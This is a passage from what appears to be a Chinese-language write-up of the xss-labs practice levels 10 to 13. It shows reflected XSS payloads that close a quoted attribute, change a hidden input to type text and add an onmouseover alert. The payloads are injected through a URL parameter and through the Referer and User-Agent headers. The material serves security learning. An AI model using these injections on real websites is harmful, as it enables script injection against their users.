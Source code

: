 值得注意的是这边input的type是hidden 也就是隐藏域 我们利用鼠标事件的时候 要把隐藏域显示出来 那就要在前面重新构造一个type顶掉后面预置的type payload如下:

```php
?t_sort=" type="text" onmouseover=alert(1) "
```

------

## less 11

代审 传参点ref头部 利用burp抓包改代码：

```php
Referer: " type="text" onmouseover="alert(1) 
```

前面引号闭合预置引号 type顶掉后面的隐藏域 onmouserover触发条件 "alert(1) 刚好和后面的引号闭合 完成弹窗

```php
<input name="t_ref"  value="" type="text" onmouseover="alert(1)" type="hidden">
    //完整代码
```



------

## less 12

源码发现

```php
<input name="t_ua" value="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0" type="hidden">
```

是基于uagent的吗？ 抓包尝试:

```php
User-Agent: " qwe
<input name="t_ua"  value="" qwe" type="hidden">
```

可以闭合 继续尝试

```php
User-Agent: " type="text" onmouseover="alert(/xss/)
```

成功弹窗

------

## less 13

```php
http://localhost/xss-labs-master/level13.php?keyword=qwe
<input name="t_cook" value="call me maybe?" type="hidden">
```
